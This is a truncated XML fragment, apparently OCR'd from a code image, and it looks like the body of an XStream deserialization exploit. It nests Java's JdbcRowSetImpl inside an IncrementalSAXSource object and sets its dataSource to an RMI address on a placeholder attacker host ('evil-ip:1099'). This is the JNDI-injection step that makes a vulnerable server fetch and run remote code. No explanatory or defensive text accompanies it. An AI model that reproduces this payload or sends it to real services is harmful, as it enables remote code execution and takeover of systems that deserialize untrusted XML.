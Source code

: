 ```xml

<m__incremental>false</m__incremental>

<m__source__location>false</m__source__location>

<m__dtms>

<null/>

</m__dtms>

<m__defaultHandler/>

</m__mgrDefault>

<m__shouldStripWS>false</m__shouldStripWS>

<m__indexing>false</m__indexing>

<m__incrementalSAXSource class='com.sun.org.apache.xml.internal.dtm.ref.IncrementalSAXSource_Xerces'>

<fPullParserConfig class='com.sun.rowset.JdbcRowSetImpl' serialization='custom'>

<javax.sql.rowset.BaseRowSet>

<default>

<concurrency>1008</concurrency>

<escapeProcessing>true</escapeProcessing>

<fetchDir>1000</fetchDir>

<fetchSize>0</fetchSize>

<isolation>2</isolation>

<maxFieldSize>0</maxFieldSize>

<maxRows>0</maxRows>

<queryTimeout>0</queryTimeout>

<readOnly>true</readOnly>

<rowSetType>1004</rowSetType>

<showDeleted>false</showDeleted>

<dataSource>rmi://evil-ip:1099/example</dataSource>

<listeners/>

<params/>

</default>

</javax.sql.rowset.BaseRowSet>

<com.sun.rowset.JdbcRowSetImpl>

<default/>
```